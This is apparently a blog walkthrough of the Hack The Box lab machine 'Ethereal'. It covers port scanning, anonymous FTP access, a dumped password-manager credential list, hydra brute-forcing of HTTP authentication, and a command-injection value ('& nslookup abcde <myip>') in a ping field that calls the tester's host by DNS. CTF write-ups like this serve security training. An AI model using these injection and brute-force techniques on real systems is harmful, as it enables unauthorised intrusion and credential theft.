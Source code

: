 ```yaml
---
layout: single
classes: wide
title:  "Walkthrough - Ethereal"
date: 2019-03-23
categories:
    - "hackthebox"
tags:
    - machines
    - insane
    - windows
excerpt:  ""
---
```



![alt]({{ site.url }}{{ site.baseurl }}/img_path)

Before following this walkthrough, I highly recommend trying to get the flag yourself! Just like you will hear from everyone else, try harder! (if you cannot find it)

First up, we'll scan the box using basic nmap scripts and then go from there (Enumerate!).

```console
# Nmap 7.70 scan initiated Sat Mar 23 11:04:51 2019 as: nmap -v -p- -sC -sV -oA nmap 10.10.10.106
Nmap scan report for 10.10.10.106
Host is up (0.11s latency).
Not shown: 65532 filtered ports
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV IP 172.16.249.135 is not the same as 10.10.10.106
| ftp-syst:
|_  SYST: Windows_NT
80/tcp   open  http    Microsoft IIS httpd 10.0
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Ethereal
8080/tcp open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Bad Request
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Well, so we have a few ports open, port 21, 80 and 8080.

## Port 21

I always like to check the low-hanging fruit first. So let's get into FTP since `anonymous` login is allowed. This is a common misconfiguration for FTP logins. You never know what you might find but always is useful.

```console
pswapnil@noone:~/Ethereal$ ftp 10.10.10.106
Connected to 10.10.10.106.
220 Microsoft FTP Service
Name (10.10.10.106:pswapnil): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
07-10-18  09:03PM       <DIR>          binaries
09-02-09  08:58AM                 4122 CHIPSET.txt
01-12-03  08:58AM              1173879 DISK1.zip
01-22-11  08:58AM               182396 edb143en.exe
01-18-11  11:05AM                98302 FDISK.zip
07-10-18  08:59PM       <DIR>          New folder
07-10-18  09:38PM       <DIR>          New folder (2)
07-09-18  09:23PM       <DIR>          subversion-1.10.0
11-12-16  08:58AM                 4126 teamcity-server-log4j.xml
226 Transfer complete.
```

I created a copy of the FTP data on my local drive. Found a zip file `FDISK.zip`, unzipped it and mounted it as a drive.

```console
pswapnil@noone:~/Ethereal/ftp-data$ mount FDISK fdisk
pswapnil@noone:~/Ethereal/ftp-data$ ls -la fdisk/pbox
total 88
drwxr-xr-x 2 root root   512 Jul  2  2018 .
drwxr-xr-x 3 root root  7168 Dec 31  1969 ..
-rwxr-xr-x 1 root root   284 Jul  2  2018 pbox.dat
-rwxr-xr-x 1 root root 81384 Aug 25  2010 pbox.exe
```

`pbox`?! What's that? A little Google-Fu and I found that it's a password box or a dos-based password manager.
So, I used this [software](https://sourceforge.net/projects/passwbox/files/latest/download) to try and load the data from the `.dat` file.

I copied the `pbox.dat` file I found in the FTP session to my home directory as `.pbox.dat`. After executing the pbox client we just downloaded for Linux, it prompted me for the password.

```console
swapnil@swapnil:/home/swapnil/Downloads $ ./pbox                 
Enter your master password: password
```

I guessed the password trying out `admin`, `pbox`, etc, got it right for `password`. It opened the following screen.

![pbox]({{ site.url }}{{ site.baseurl }}/assets/HTB_images/machines/ethereal/pbox.png)

Using the `--dump` option, I was able to dump all the usernames and passwords and store them locally.

```console
swapnil@swapnil:/home/swapnil/Downloads $ ./pbox --dump
Enter your master password: ********
databases  ->  7oth3B@tC4v3!
msdn  ->  alan@ethereal.co / P@ssword1!
learning  ->  alan2 / learn1ng!
ftp drop  ->  Watch3r
backup  ->  alan / Ex3cutiv3Backups
website uploads  ->  R3lea5eR3@dy#
truecrypt  ->  Password8
management server  ->  !C414m17y57r1k3s4g41n!
svn  ->  alan53 / Ch3ck1ToU7>
```

That was it from FTP. I believe, the tedious process to just be able to obtain a dump is evidence that this box isn't an wasy one.

## Port 80 and 8080

In the web browser, we get the following window as a welcome page.

![ethereal]({{ site.url }}{{ site.baseurl }}/assets/images/HTB_images/machines/ethereal/ethereal-80.png)

Moving around, I found a menu item called `Admin`, let's go there.

![ethereal-admin]({{ site.url }}{{ site.baseurl }}/assets/images/HTB_images/machines/ethereal/ethereal-admin.png)

Many menu items here as well. The only important one was `Ping`. Clicking on it redirected me to `ethereal.htb:8080` and gave me the following page.

![ethereal-8080]({{ site.url }}{{ site.baseurl }}/assets/images/HTB_images/machines/ethereal/ethereal-8080.png)

Time to add `ethereal.htb` to the `hosts` file. Also, the `Notes` menu took me to a page where it mentioned the name `Alan`, ring a bell? It's the same name that appeared in the `pbox` dump.

![ethereal-notes]({{ site.url }}{{ site.baseurl }}/assets/images/HTB_images/machines/ethereal/admin-notes.png)

After the `hosts` file is updated, clicking the `Ping` option again got me an HTTP authentication page.

![ethereal-httpauth]({{ site.url }}{{ site.baseurl }}/assets/images/HTB_images/machines/ethereal/httpauth-8080.png)

Fortunately, we have a list of usernames and passwords from the dump that we obtained earlier. Use that to brute-force the HTTP authentication.

```console
root@kali# hydra -L usernames -P passwords -s 8080 -f ethereal.htb http-get /
Hydra v8.8 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

[DATA] max 16 tasks per 1 server, overall 16 tasks, 36 login tries (l:4/p:9), ~3 tries per task
[DATA] attacking http-get://ethereal.htb:8080/
[8080][http-get] host: ethereal.htb   login: alan   password: !C414m17y57r1k3s4g41n!
1 of 1 target successfully completed, 1 valid password found
```

There's the login. Using that, we find this page.

![admin-console]({{ site.url }}{{ site.baseurl }}/assets/images/HTB_images/machines/ethereal/admin-console.png)

I put my IP address in the text-field and it showed `Connection to host successful`. Let's try to capture packets this time around using `tcpdump`.

```console
root@kali:~# tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
12:57:58.345968 IP ethereal.htb > kali: ICMP echo request, id 1, seq 235, length 40
12:57:58.345989 IP kali > ethereal.htb: ICMP echo reply, id 1, seq 235, length 40
12:57:59.616726 IP ethereal.htb > kali: ICMP echo request, id 1, seq 236, length 40
12:57:59.616884 IP kali > ethereal.htb: ICMP echo reply, id 1, seq 236, length 40
```

We get 2 pings! Looks weird. Based on a guess, it's running something like `ping -n2 <ip>`. Let's find out if this box allows DNS queries. I'll use `& nslookup abcde <myip>` in the text field. Try to see it using tcpdump.

```console
pswapnil@noone:~/Ethereal$ tcpdump -ni tun0 udp port 53
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
19:49:18.150063 IP 10.10.10.106.50772 > 10.10.16.39.53: 3+ AAAA? abcde. (23)
```

Great! So we can get data from DNS.
